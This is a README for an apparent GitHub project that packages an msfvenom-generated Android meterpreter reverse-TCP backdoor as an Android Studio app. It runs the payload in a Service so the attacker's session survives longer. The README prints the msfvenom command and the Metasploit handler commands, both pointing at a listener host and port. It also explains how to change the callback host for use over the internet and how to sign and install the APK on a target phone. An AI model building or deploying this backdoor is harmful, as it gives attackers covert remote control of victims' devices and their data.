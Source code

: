 # msfvenom-backdoor-android
This Android Studio project contains the **source code of the backdoored .apk** generated by 
```
$msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.178.30 LPORT=4444 R > result.apk
```
(in Kali linux suite)

Tries to solve the issue:
```
[*]Meterpreter session x closed - Reason:died
```
message, by starting payload in a Service. Meterpreter session is more stable in this way (original msfvenom apk often causes session to die very soon)

In this project the backdoor works in **LAN** settings, opening a meterpreter session to 192.168.178.30 on port 4444
(this settings can be changed in **Payload.java** file if you want to work in a WAN)
The control server must be executing handler exploit with Metasploit, with following commands:
```
$msfconsole
$use exploit/multi/handler
$set payload android/meterpreter/reverse_tcp
$set LHOST 192.168.178.30
$set LPORT 4444
$exploit
```
after the metasploit machine is waiting, the .apk can be installed and launched on the android terminal.

**Remember to sign the .apk with a key before installing**

Tested on Samsung Galaxy S6 - Lollipop
